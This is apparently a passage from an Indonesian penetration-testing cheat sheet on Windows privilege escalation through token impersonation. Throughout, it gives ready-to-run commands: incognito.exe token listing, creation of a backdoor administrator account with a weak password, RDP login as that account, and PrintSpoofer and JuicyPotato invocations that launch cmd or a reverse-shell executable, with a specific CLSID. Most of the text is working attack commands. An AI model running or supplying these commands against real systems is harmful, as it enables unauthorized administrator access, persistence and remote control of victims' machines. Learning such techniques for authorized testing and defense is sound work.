pastikan  `SeImpersonatePrivilege` enabled. 

Lalu cek user mana saja yang bisa di impersonate. Kita bisa pakai incognito.exe, commandnya :

```
* incognito.exe list tokens -u //list token available to impersonate
* incognito.exe add_user mrdoel 123456 //add new user
* incognito.exe add_localgroup_user Administrators mrdoel  //add new user to the local administrators group
* net user mrdoel //cek apakah user sudah ditambahkan ke group administrator (Local Group Memberships      *Administrators)
```

Jika RDP tersedia maka kita bisa login sebagai root dengan command
`rdesktop -u mrdoel -p 123456 target.local`

### Teknik Baru Token Impersonate 
Cara sebelumnya hanya berlaku untuk windows dibawah windows 10. Jika cara diatas tidak bisa maka kita bisa gunakan PrintSpoofer, targetnya Windows 10 and Server 2016/2019. 

Note: pastikan `SeImpersonatePrivilege` berstatus `Enabled`

Cek di https://github.com/itm4n/PrintSpoofer/releases

Perintah untuk menjalankan exploit
```PrintSpoofer64.exe -i -c cmd```

atau bisa juga seperti ini
```
PrintSpoofer64.exe -i -c "C:\Temp\Reverse.exe"
```

### Juicy Potato
Pada Windows terdapat user dengan privilege services. User ini tidak bisa login, karena dia hanya bertugas untuk menjalankan tugas / service misal apache, mssql dll. Terdapat celah keamanan ketika user service ini memiliki privileges `SeImpersonatePrivilege`  atau `SeAssignPrimaryToken`  dimana bisa melakukan token impersonate. 

Cara untuk exploit celah ini adalah dengan menggunakan Juice Potatal https://github.com/ohpe/juicy-potato  , juicy potato hanya work sampai windows 7. Sedangkan untuk windows 10 kita bisa gunakan Rogue Potato

Cek dulu `whoami /priv`

Lalu cara untuk menjalankan juicy potato
```
JuicyPotato.exe -t * -p rev.exe -l 4444
```
Kalau diatas gak bisa pakai cara ini :

```
.\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {xxx}
```

Penjelasan
* -l local port (ini sembarang aja asal gak sama dengan local port di victim machine)
* -p program yang akan dijalankan (reverse shell attacker)
* -t createprocess all
* -c CLSID, adalah unique number untuk mengidentifikasi setiap komponen aplikasi di windows. cek disini https://github.com/ohpe/juicy-potato/tree/master/CLSID , sesuaikan dengan sistem operasi dan privilege. Misalnya Windows 7 dan privilege `NT AUTHORITY\SYSTEM` maka CLSID nya ``{03ca98d6-ff5d-49b8-abc6-03dd84127020}``

```
.\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

## whoami /priv explanation
```